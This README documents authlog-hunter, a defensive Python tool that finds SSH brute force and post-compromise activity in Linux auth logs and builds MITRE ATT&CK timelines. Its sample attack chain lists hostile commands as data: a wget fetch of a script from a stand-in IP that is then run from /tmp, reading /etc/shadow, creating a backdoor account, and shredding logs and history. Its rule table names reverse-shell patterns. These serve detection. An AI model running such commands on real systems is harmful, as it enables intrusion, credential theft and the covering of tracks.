

# authlog-hunter


**Find SSH brute force, account takeover and post-exploitation activity in Linux auth logs, then rebuild the attack as a MITRE ATT&CK timeline.**

Most brute-force alerts stop at "many failed logins from one IP". An analyst needs to know two more things: *did one of those attempts succeed?* and *what did the attacker do after logging in?* authlog-hunter reads `auth.log` / `secure`, runs 19 detection rules, and links a successful brute-force login to the `sudo` commands, new accounts and persistence that came after it. The result is an attack chain you can put straight into an incident ticket.

- **19 detection rules** covering credential access, initial access, execution, persistence, privilege escalation and defence evasion. Each rule is mapped to MITRE ATT&CK.
- **Correlation, not just matching.** A successful login after brute force (AH-003) opens an *attack chain*. Commands run from that session get a higher severity, and backdoor accounts are followed when they log in later.
- **Built for real log files.** It handles rsyslog's `message repeated N times`, key-only servers that never log `Failed password`, the OpenSSH 9.8+ `sshd-session` process, RFC 3339 timestamps (Ubuntu 24.04+), rotated `.gz` files, IPv6, and the Dec → Jan year rollover.
- **Three output formats:** coloured text for the terminal, JSON for a SIEM or SOAR, and Markdown for tickets and reports.
- **Safe with hostile input.** Usernames and commands in the log are controlled by the attacker, so control characters are escaped before anything is printed. A crafted username cannot inject ANSI escape sequences into your terminal.
- **No dependencies.** It uses only the Python standard library, so it runs on any server with Python 3.10+. Exit codes make it usable from cron and CI.

## Quick start

Clone the repository, then:

```bash
cd authlog-hunter
python3 -m venv .venv && . .venv/bin/activate
pip install .                        # installs the `authlog-hunter` command (or: pipx install .)
authlog-hunter samples/auth.log      # analyse the bundled sample
```

To run it without installing anything: `PYTHONPATH=src python3 -m authlog_hunter samples/auth.log`

On a real server (rotated and gzipped logs are read too). Reading the logs needs root, or membership of the `adm` group on Debian/Ubuntu:

```bash
sudo .venv/bin/authlog-hunter /var/log/auth.log*     # Debian / Ubuntu
sudo .venv/bin/authlog-hunter /var/log/secure*       # RHEL / Rocky / Fedora
```

## Example: one day on `web-prod-01`

[`samples/auth.log`](samples/auth.log) is a synthetic but realistic day on an Ubuntu web server (293 lines, including CRON/PAM noise). It is produced by [`samples/generate_sample.py`](samples/generate_sample.py). Over the day there is password spraying, a noisy root brute force that fails, legitimate admin work, a developer who mistypes his password, and one real compromise: the `deploy` account is brute-forced, and the attacker escalates, drops a payload, creates a backdoor user and cleans up.

```text
$ authlog-hunter samples/auth.log

authlog-hunter 0.1.0 - Linux auth log threat report
===================================================
Sources    samples/auth.log (293 lines, 170 security events)
Period     2026-09-28 00:41:12 -> 2026-09-28 23:12:43
Hosts      web-prod-01
Activity   94 failed logins from 9 IPs, 6 accepted logins, 18 sudo commands
Findings   8 critical, 5 high, 4 medium, 1 low

FINDINGS (18)
------------------------------------------------------------
[CRITICAL] AH-003  Successful SSH login after brute force
  when      2026-09-28 11:02:10 -> 11:09:41 (24 events)
  where     192.0.2.77 -> web-prod-01    users: deploy
  mitre     T1110.001 Brute Force: Password Guessing; T1078 Valid Accounts
  what      23 failed attempts from 192.0.2.77 against deploy (23) were followed by a successful password
            login as 'deploy' at 2026-09-28 11:09:41. The password of this account was most likely guessed.
  action    Treat 'deploy' as compromised: kill its sessions, reset credentials and keys, review everything
            it did after 11:09:41 (see attack chain), and consider rebuilding the host.
  evidence  samples/auth.log:150  Sep 28 11:02:10 web-prod-01 sshd[3386]: Failed password for deploy from 192.0.2.77 port 55073 ssh2
            ...
            samples/auth.log:196  Sep 28 11:09:41 web-prod-01 sshd[3409]: Accepted password for deploy from 192.0.2.77 port 42824 ssh2

[CRITICAL] AH-014  Password hash file accessed
  ...

ATTACK CHAIN 1: 'deploy'@web-prod-01 compromised from 192.0.2.77 on 2026-09-28
------------------------------------------------------------------------------
  TIME      TACTIC                TECHNIQUE  ACTIVITY
  11:02:10  Credential Access     T1110.001  23 failed SSH logins from 192.0.2.77 against deploy (23), until 11:09:33
  11:09:41  Initial Access        T1078      Successful password login as 'deploy' from 192.0.2.77
  11:10:05  Privilege Escalation  T1548.003  sudo (root): /usr/bin/id
  11:10:31  Credential Access     T1003.008  sudo (root): /usr/bin/cat /etc/shadow
  11:11:02  Command and Control   T1105      sudo (root): /usr/bin/wget http://203.0.113.200/k.sh -O /tmp/.k.sh
  11:11:15  Execution             T1059.004  sudo (root): /usr/bin/chmod +x /tmp/.k.sh
  11:11:20  Execution             T1059.004  sudo (root): /tmp/.k.sh
  11:12:40  Privilege Escalation  T1548.003  sudo (root): /usr/sbin/useradd -m -s /bin/bash svc-backup
  11:12:40  Persistence           T1136.001  Local account 'svc-backup' created (UID 1003)
  11:12:58  Privilege Escalation  T1548.003  sudo (root): /usr/sbin/usermod -aG sudo svc-backup
  11:12:58  Privilege Escalation  T1098.007  'svc-backup' added to privileged group 'sudo'
  11:13:20  Privilege Escalation  T1548.003  sudo (root): /usr/bin/passwd svc-backup
  11:13:27  Persistence           T1098      Password set for 'svc-backup'
  11:14:05  Persistence           T1098.004  sudo (root): /usr/bin/tee -a /root/.ssh/authorized_keys
  11:14:40  Persistence           T1053.003  sudo (root): /usr/bin/crontab /tmp/.c
  11:15:22  Defense Evasion       T1070.002  sudo (root): /usr/bin/shred -u /var/log/btmp
  11:15:40  Defense Evasion       T1070.003  sudo (root): /usr/bin/rm -f /home/deploy/.bash_history
  14:27:10  Initial Access        T1078.003  Backdoor account 'svc-backup' logged in from 198.51.100.61

TOP SOURCES OF FAILED LOGINS
------------------------------------------------------------
  IP                                        FAILED  USERS  ACCEPTED
  203.0.113.45                                  42      1         0
  192.0.2.77                                    23      1         1
  198.51.100.23                                 14     14         0
  ...
```

What was **not** flagged matters too. The developer who mistyped his password twice before logging in from `10.10.5.30` does not raise a compromise alert, because 2 failures is below the default threshold of 5. Routine admin commands such as `apt update`, `systemctl restart nginx` and `tail /var/log/nginx/error.log` produce no findings.

## Detection rules

| ID | Detects | Default severity | MITRE ATT&CK |
|---|---|---|---|
| AH-001 | SSH brute force: ≥ 10 failures from one IP within 10 min | Medium; High if real accounts are targeted | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |
| AH-002 | Password spraying / user enumeration: ≥ 5 usernames from one IP within 10 min | Medium | [T1110.003](https://attack.mitre.org/techniques/T1110/003/) |
| AH-003 | **Successful login after ≥ 5 failures from the same IP (24 h lookback)** | Critical | [T1110](https://attack.mitre.org/techniques/T1110/), [T1078](https://attack.mitre.org/techniques/T1078/) |
| AH-004 | Direct root login over SSH | High (password) / Medium (key) | [T1078.003](https://attack.mitre.org/techniques/T1078/003/) |
| AH-005 | Sudo failures / user not in sudoers | Low to Medium | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) |
| AH-006 | Local account created (UID 0 → Critical) | Medium | [T1136.001](https://attack.mitre.org/techniques/T1136/001/) |
| AH-007 | Account added to a privileged group (`sudo`, `wheel`, `docker`, `lxd`, `disk`, …) | High | [T1098.007](https://attack.mitre.org/techniques/T1098/007/) |
| AH-008 | Account password changed | Low (root: Medium) | [T1098](https://attack.mitre.org/techniques/T1098/) |
| AH-009 | Newly created account used for SSH login | High | [T1078.003](https://attack.mitre.org/techniques/T1078/003/) |
| AH-010 | Reverse shell via sudo (`/dev/tcp`, `nc -e`, `socat exec:` …) | Critical | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) |
| AH-011 | File download with `curl`/`wget` as root (to `/tmp` or piped to a shell → High) | Medium | [T1105](https://attack.mitre.org/techniques/T1105/) |
| AH-012 | Execution from `/tmp`, `/var/tmp`, `/dev/shm` | High | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) |
| AH-013 | `authorized_keys` modified | High | [T1098.004](https://attack.mitre.org/techniques/T1098/004/) |
| AH-014 | `/etc/shadow` accessed | High | [T1003.008](https://attack.mitre.org/techniques/T1003/008/) |
| AH-015 | System logs deleted or logging disabled | High | [T1070.002](https://attack.mitre.org/techniques/T1070/002/) |
| AH-016 | Shell history tampering | High | [T1070.003](https://attack.mitre.org/techniques/T1070/003/) |
| AH-017 | Cron persistence | Medium | [T1053.003](https://attack.mitre.org/techniques/T1053/003/) |
| AH-018 | Systemd service created or enabled | Low | [T1543.002](https://attack.mitre.org/techniques/T1543/002/) |
| AH-019 | Encoded payload decoded (`base64 -d`, `xxd -r`) | Medium | [T1140](https://attack.mitre.org/techniques/T1140/) |

A command or account change that happens inside a compromised session (after AH-003, same host and user, within 24 h) is **raised one severity level**, and its finding says why. The logic, the reasoning behind each threshold and the known false positives are in [docs/detections.md](docs/detections.md).

## How it works



1. **Parsing.** Each line is split into its syslog header (both timestamp styles) and program tag. Only security-relevant messages from `sshd`, `sudo`, `useradd`, `usermod`, `gpasswd` and `passwd` become events. Classic syslog has no year, so the year is inferred and increments when the log rolls over from December to January.
2. **Counting attempts correctly.** One SSH connection can log `Invalid user x`, then `Failed password for invalid user x`, then `Connection closed ... [preauth]`. Counting every line would inflate the numbers three times over. Attempts are therefore keyed by *(host, sshd PID, source IP)*: explicit failures are counted, and the other two lines are used only for connections that never logged a failure. That fallback is what catches attacks on key-only servers. `message repeated N times` is expanded to N attempts.
3. **Sliding windows.** Brute force and spraying use a two-pointer sliding window, so a slow attack spread over hours is not confused with a burst.
4. **Correlation.** Each AH-003 compromise becomes an attack chain. It collects the user's later `sudo` commands, account changes on the host and logins by accounts created during the chain. `useradd` does not record who ran it, so an account change is linked to the attacker when one of the attacker's `sudo` commands in the previous minute mentions that account. Otherwise it is marked `~` (time-correlated only).

## Usage

```text
authlog-hunter [options] [LOG ...]

output:
  -f, --format {text,json,markdown}   report format (default: text)
  -o, --output FILE                   write the report to FILE
  --min-severity LEVEL                hide findings below LEVEL (default: low)
  --fail-on LEVEL                     exit 1 if any finding >= LEVEL
  --no-color                          plain text output (also honours NO_COLOR)

detection tuning:
  --threshold N        failures from one IP in the window for brute force (default: 10)
  --window MIN         sliding window in minutes (default: 10)
  --spray-users N      distinct usernames for spraying (default: 5)
  --success-after N    failures before a success to flag a compromise (default: 5)
  --allowlist CIDR     trusted IP/network, repeatable
  --allowlist-file F   one IP/CIDR per line
  --year YEAR          year for classic syslog timestamps (default: inferred)

  --list-rules         print all rules with their ATT&CK technique
```

Common tasks:

```bash
# Only what needs attention now, ignoring the Ansible host
authlog-hunter /var/log/auth.log --min-severity high --allowlist 10.10.5.5

# JSON for a SIEM (Elastic, Splunk, Wazuh...) or a SOAR playbook
authlog-hunter /var/log/auth.log -f json -o /var/tmp/authlog-report.json

# Markdown report to attach to an incident ticket
authlog-hunter /var/log/auth.log* -f markdown -o incident-report.md

# Read from stdin, e.g. old rotated logs
zcat /var/log/auth.log.*.gz | authlog-hunter -

# Hourly cron job: email only when something critical happens
0 * * * * authlog-hunter /var/log/auth.log --fail-on critical --no-color > /tmp/ah.txt || mail -s "authlog-hunter alert" soc@example.com < /tmp/ah.txt
```

Exit codes: `0` success, `1` a finding at or above `--fail-on`, `2` usage or input error.

### JSON output (excerpt)

```json
{
  "tool": "authlog-hunter",
  "version": "0.1.0",
  "findings": [
    {
      "rule_id": "AH-003",
      "title": "Successful SSH login after brute force",
      "severity": "CRITICAL",
      "techniques": [
        {"id": "T1110.001", "name": "Brute Force: Password Guessing", "tactic": "Credential Access",
         "url": "https://attack.mitre.org/techniques/T1110/001/"},
        {"id": "T1078", "name": "Valid Accounts", "tactic": "Initial Access",
         "url": "https://attack.mitre.org/techniques/T1078/"}
      ],
      "host": "web-prod-01",
      "src_ip": "192.0.2.77",
      "users": ["deploy"],
      "first_seen": "2026-09-28T11:02:10",
      "last_seen": "2026-09-28T11:09:41",
      "evidence": [{"location": "samples/auth.log:196", "raw": "Sep 28 11:09:41 web-prod-01 sshd[3409]: Accepted password for deploy ..."}]
    }
  ],
  "attack_chains": [{"host": "web-prod-01", "src_ip": "192.0.2.77", "user": "deploy", "steps": ["..."]}],
  "top_sources": [{"ip": "203.0.113.45", "failed": 42, "distinct_users": 1, "accepted": 0}]
}
```

## Tests

```bash
python3 -m unittest discover -s tests -v
```

There are 43 tests covering the parser (both timestamp formats, repeated messages, IPv6, gzip, year rollover, escaping of control characters), every rule (threshold boundaries, window logic, allowlist, severity escalation, benign commands that must *not* match) and the CLI (formats, exit codes, errors). GitHub Actions runs them on Python 3.10–3.13 and publishes the Markdown report for the sample log to the job summary.

A log of about 1 million lines is analysed in under 20 seconds on a single CPU core.

## Project layout

```text
src/authlog_hunter/
  parser.py      syslog parsing -> normalised Event objects
  detectors.py   detection rules, attempt de-duplication, correlation, attack chains
  mitre.py       ATT&CK technique names, tactics and links
  report.py      text / JSON / Markdown renderers
  cli.py         command-line interface
samples/         synthetic auth.log + the script that generates it
tests/           unittest suite
docs/            detection logic and false-positive notes
```

## Limitations

- `auth.log` only contains what PAM, `sshd` and `sudo` write. Commands typed inside a root shell (`sudo -i`, `su -`) are not visible, so pair this tool with `auditd` or EDR for full command visibility.
- `useradd`, `usermod` and `passwd` do not log who ran them. Attribution in attack chains is based on time and command text, and this is flagged in the output.
- Timestamps are compared as local wall-clock time. Logs from hosts in different time zones are not normalised.
- The rules are heuristics. Tune thresholds with the CLI options and allowlist trusted automation such as Ansible, backup jobs and monitoring.

## Roadmap

- `journalctl -o json` input for systems without rsyslog
- Export of rules as [Sigma](https://github.com/SigmaHQ/sigma)
- Optional GeoIP / ASN enrichment for source IPs
- fail2ban / nftables block-list output

## Disclaimer

authlog-hunter is a defensive tool for analysing logs you are authorised to access. The sample data is synthetic. All public IP addresses in it come from the RFC 5737 documentation ranges (`192.0.2.0/24`, `198.51.100.0/24`, `203.0.113.0/24`) and do not belong to anyone.

## License

[MIT](LICENSE)
